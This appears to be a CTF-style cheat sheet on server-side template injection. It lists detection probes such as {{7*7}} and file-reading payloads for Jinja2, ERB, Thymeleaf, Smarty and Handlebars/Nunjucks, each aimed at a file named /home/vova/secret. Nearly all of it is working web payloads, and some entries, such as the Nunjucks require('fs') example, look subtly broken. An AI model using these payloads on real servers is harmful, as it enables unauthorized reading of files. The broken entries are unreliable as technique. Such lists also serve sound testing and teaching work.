 # Server-side template injection

Test Queries: Enter the commands that will cause the error and look at the specific messages to determine the ENGINE.

# Exploitation of SSTI to access /home/vova/secret by languages ​​and template systems

## Python (Jinja2)

```
{{ }}, {% %}, {{7*7}} = 49
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
```

## Ruby (ERB)

```
<%= %>, <%= 7 * 7 %> = 49
<%= File.read('/home/vova/secret') %>
```

## Java (Thymeleaf)

```
th:text, ${}, ${7*7} = 49
${new java.util.Scanner(new java.io.File("/home/vova/secret")).useDelimiter("\\A").next()}
```

## PHP (Smarty)

```
{ },{7*7} = 49
{file_get_contents('/home/vova/secret')}
```

## Node.js (Handlebars, Nunjucks)

```
{{ }}, {{7*7}} = 49 //Handlebars
{% %}, {% 7*7 %} = 49 //Nunjucks

{% set fs = require('fs') %}
{{ fs.readFileSync('/home/vova/secret', 'utf-8') }}
```
